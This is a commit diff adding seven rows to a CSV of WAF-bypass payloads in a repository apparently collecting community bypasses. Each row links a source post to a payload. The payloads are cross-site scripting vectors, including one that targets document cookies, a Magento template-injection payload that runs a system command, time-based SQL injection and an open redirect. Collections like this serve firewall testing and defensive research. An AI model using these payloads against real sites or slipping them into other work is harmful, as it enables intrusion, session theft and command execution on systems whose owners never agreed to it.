

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
new payloads

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -466 +466,8 @@ https://medium.com/@cyberninja717/reflected-cross-site-scripting-vulnerability-i
 https://twitter.com/tohasec/status/1164291647624097797,<img src onerror=%26emsp;prompt`${document.domain}`>,xss
+https://medium.com/@alb-soul/xss-with-403-waf-bypass-for-and-document-cookie-998850c02bd5,"testtest”+onmouseover%3D”alert%26%230000000040%3Bdocument[‘cookie’])",xss
+https://github.com/Mr-xn/CVE-2022-24086,{{var this.getTemplateFilter().addAfterFilterCallback("system").filter("whoami")}},rce
+https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/,SELECT * FROM test WHERE id = 1 WAITFOR DELAY'0:0:5',sqli
+https://twitter.com/0x0SojalSec/status/1674130690785398796,////evil%E3%80%82com,redir
+https://twitter.com/_Y000_/status/1676088313839583232/photo/2,-16'and@:=,sqli
+https://twitter.com/SaltinDeadsec/status/1679237884312690689,"""><svg%20onload=alert%26%230000000040""1"")>",xss
+https://packetstormsecurity.com/files/173143/Office-Suite-Premium-10.9.1.42602-Cross-Site-Scripting.html,dfsse%3cimg%20src%3da%20onerror%3dalert(1)%3ez1668cyj2pi,xss
```
